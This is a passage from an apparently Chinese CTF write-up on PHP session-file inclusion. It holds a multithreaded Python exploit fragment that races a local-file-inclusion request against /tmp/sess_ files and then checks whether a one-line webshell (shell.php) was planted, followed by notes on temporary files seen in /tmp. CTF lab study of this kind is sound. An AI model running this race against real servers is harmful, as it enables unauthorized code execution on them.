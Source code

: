 ```python

def read(session):
    while True:
        session.get(url + '?1=/tmp/sess_' + sessionid) # 进行文件包含
        r = session.get(url+'shell.php') # 检查是否写入一句话木马
        if r.status_code == 200:
            print('OK')
            return ;

evnet=threading.Event() # 多线程

session = requests.session()
for i in range(5):
    threading.Thread(target = write,args = (session,)).start()
for i in range(5):
    threading.Thread(target = read,args = (session,)).start()

evnet.set()
```

最后好奇的查看/tmp目录下的文件，看到一些奇怪的php开头的文件名，里面内容是ctfshow
![5](https://the0n3.top/medias/session-include/5.png)

根据开头这张图就可以解释这些文件名是什么了，session文件包含进来时，显示一个序列化的数组数据，这些php开头的文件是临时文件名
![4](https://the0n3.top/medias/session-include/4.png)
